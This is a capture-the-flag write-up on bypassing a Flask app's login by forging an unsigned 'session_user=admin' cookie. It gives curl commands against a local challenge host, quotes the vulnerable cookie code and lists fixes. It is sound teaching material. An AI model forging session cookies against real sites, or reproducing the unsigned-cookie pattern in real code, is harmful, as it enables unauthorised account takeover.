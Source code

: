 ```markdown
# Authentication Bypass via Unsigned Cookies

## Challenge Description
Web application with login system that improperly validates user sessions through unsigned cookies, allowing authentication bypass.

## Vulnerability Analysis
**Type**: Broken Authentication  
**Root Cause**: Unsigned session cookies with no server-side validation  
**Location**: Cookie handling in `challenge_get()` function

## Exploitation Methods

### Direct Attack (Recommended)
```bash
curl -b "session_user=admin" "http://challenge.localhost/"
```

### Via Guest Login (Alternative)
1. First authenticate as guest:
   ```bash
   curl -X POST -d "username=guest&password=password" http://challenge.localhost/
   ```
2. Then modify the cookie:
   ```bash
   curl -b "session_user=admin" http://challenge.localhost/
   ```

## Technical Explanation

1. **Admin Credentials**:
   - Randomly generated (`os.urandom(8)`)
   - Impossible to guess or brute-force

2. **Cookie Mechanism**:
   ```python
   # Sets insecure cookie
   response.set_cookie('session_user', username)
   
   # Only checks cookie value
   username = flask.request.cookies.get("session_user")
   ```

3. **Security Flaws**:
   - Accepts any cookie value without validation
   - No cryptographic signing
   - No server-side session tracking
   - Superficial admin check (`if username == "admin"`)

## Impact
- Full authentication bypass
- Privilege escalation to admin
- Arbitrary user impersonation

## Remediation
1. **Use Flask's Secure Sessions**:
   ```python
   flask.session['user'] = username  # Automatically signed
   ```

2. **Server-Side Validation**:
   - Verify session against database
   - Implement proper session timeout

3. **Secure Cookie Attributes**:
   - Enable `HttpOnly`, `Secure`, and `SameSite` flags
   - Set proper expiration

## Lesson Learned
Never trust client-controlled values for authentication decisions without proper cryptographic validation and server-side checks.
```